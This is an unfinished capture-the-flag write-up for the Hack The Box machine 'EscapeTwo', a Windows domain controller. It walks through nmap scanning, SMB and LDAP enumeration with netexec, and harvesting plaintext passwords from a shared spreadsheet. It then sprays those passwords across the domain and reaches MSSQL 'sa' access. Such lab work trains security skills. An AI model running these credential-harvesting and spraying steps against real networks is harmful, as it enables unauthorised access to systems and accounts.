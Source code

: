 ```yaml
---
target_ip: 10.10.11.51
platform: HTB
difficulty: Easy
os: Windows
date_started: 2025-06-15
status: in_progress
services: ['ncacn_http', 'microsoft-ds', 'kpasswd5', 'domain', 'http', 'kerberos-sec', 'msrpc', 'netbios-ssn', 'ldap', 'ms-sql-s']
techniques_used: []
tools_used: [nmap]
---
```


# EscapeTwo

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 15/06/2025

## Overview 


---

## Phase 1: Reconnaissance 

### Network Discovery

```bash
nmap -sC -sV -T4 10.10.11.51 -oA nmap/escapetwo
```

| Port | Service      | Version                                      |
| ---- | ------------ | -------------------------------------------- |
| 53   | domain       | Simple DNS Plus                              |
| 88   | kerberos-sec | Microsoft Windows Kerberos                   |
| 135  | msrpc        | Microsoft Windows RPC                        |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                |
| 389  | ldap         | Microsoft Windows Active Directory LDAP      |
| 445  | microsoft-ds | N/A                                          |
| 464  | kpasswd5     | N/A                                          |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0          |
| 636  | ldap         | Microsoft Windows Active Directory LDAP      |
| 1433 | ms-sql-s     | Microsoft SQL Server 2019 15.00.2000.00; RTM |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP      |
| 3269 | ldap         | Microsoft Windows Active Directory LDAP      |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                  |
hosts
```bash
nxc smb '10.10.11.51' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

...
10.10.11.51     DC01.sequel.htb DC01
```

Save the assumed breach credentials to files
```bash
echo 'rose' > users.txt
echo 'KxEPkKe6R8su' > creds.txt
```

Use the credentials to enumerate the shares.
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --shares 

...
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ  
```

And the users
```bash
nxc ldap 'DC01' -u 'rose' -p creds.txt -d 'sequel.htb' --users | awk '{print $5}' | grep -vE '[\[|^-]' > users.txt

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
```

Spider the files on the smb server
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' -M spider_plus -o DOWNLOAD_FLAG=True
```


```bash
cp -r /home/wither/.nxc/modules/nxc_spider_plus/10.10.11.51 .
```


Unzip the `accounts.xlsx` file to reveal a list of passwords in `xl/sharedStrings.xml`.
```bash
ls
accounting_2024.xlsx  accounts.xlsx


unzip accounts.xlsx       
Archive:  accounts.xlsx
file #1:  bad zipfile offset (local header sig):  0
  inflating: xl/workbook.xml         
  inflating: xl/theme/theme1.xml     
  inflating: xl/styles.xml           
  inflating: xl/worksheets/_rels/sheet1.xml.rels  
  inflating: xl/worksheets/sheet1.xml  
  inflating: xl/sharedStrings.xml    
  inflating: _rels/.rels             
  inflating: docProps/core.xml       
  inflating: docProps/app.xml        
  inflating: docProps/custom.xml     
  inflating: [Content_Types].xml     
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files/10.10.11.51/Accounting Department$ grep -r "Password" > sharedstrings.txt                                                                  
xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

Add `sa` to users 
```bash
echo 'sa' >> users.txt
```

Clean up and save those passwords, adding them to the `creds.txt` list
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '10p;15p;20p;24p' | sed -E 's/<\/?t[^>]*>//g' >> creds.txt 

cat creds.txt 

KxEPkKe6R8su
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```

Same with the `users.txt`
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '9p;14p;19p;23p' | sed -E 's/<\/?t[^>]*>//g' >> users.txt 

cat users.txt  

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
angela
kevin
sa
```


Use the `users.txt` list and that list of passwords to spray the domain again, to find a valid login for `oscar` and password `86LxLBMgEWaKUnBG`
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --continue-on-success                                                     
...
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
...
SMB         10.10.11.51     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG 
...
```


Add `sa` to users 
```bash
echo 'sa' >> users.txt

nxc mssql 'DC01' -u users.txt  -p creds.txt --local-auth 

...
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```




## Enumeration

---

## Phase 2: Exploitation


---

## Phase 3: Privilege Escalation



## References
- 

---
#escapetwo #htb #easy #windows